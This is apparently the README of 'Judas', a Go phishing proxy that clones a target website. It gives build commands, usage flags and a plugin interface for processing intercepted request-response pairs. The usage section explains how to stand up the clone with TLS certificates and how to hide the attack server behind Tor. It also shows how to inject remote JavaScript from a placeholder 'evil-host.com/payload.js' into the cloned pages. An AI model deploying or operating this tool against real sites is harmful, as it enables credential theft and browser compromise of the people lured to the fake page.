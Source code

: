 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Building
--------
To build Judas, first, get the dependencies:
 ```
 go get golang.org/x/net/proxy
 go get github.com/PuerkitoBio/goquery
 go build -o judas *.go
 ```

 Next, build the logging plugin if you want to see responses on the console.
```
go build -buildmode=plugin -o loggingplugin.so bundled/loggingplugin.go
```

To add other plugins, simply place the .so files into the same directory as the judas executable.

Usage
-----
The target ```--target``` flag is required.
By default, Judas requires a path to a SSL certificate (```--cert```) and a SSL private key (```--private-key```).
If you want to listen using HTTP, pass the ```--insecure``` flag.
If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key
```

```
./judas --target https://target-url.com --insecure
```

```
./judas --target https://target-url-with-self-signed-cert.com --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./judas --target https://torwebsite.onion --cert server.crt --private-key server.key --proxy localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --inject-js https://evil-host.com/payload.js
```

Custom plugins
--------------
To create your own plugin, simply create a Go plugin using the standard library plugin package (https://golang.org/pkg/plugin/).

Judas looks for the following symbols:
```
var Plugin plugins.Plugin
```

Your plugins must implement the Plugin interface found in github.com/joncooperworks/judas/plugins.

```
// Plugin contains functions and variables that Judas will be looking for in your plugin.
// Plugins will be loaded from any .so file in the same directory as the judas executable.
type Plugin interface {
	// Name of the plugin.
	Name() string

	// Initialize is where you should do your plugin's setup, like defining command line flags.
	// You are allowed to return a PluginArguments of arguments that will be passed to your ProcessTransactions function.
	Initialize() (PluginArguments, error)

	// ProcessTransactions takes a chan that produces request - response pair and does something.
	// Judas plugins should implement this function to process request - response pairs as they are generated.
	// Requests and responses will be passed by value, allowing each plugin to run in its own goroutine.
	ProcessTransactions(<-chan HTTPTransaction, PluginArguments)
}
```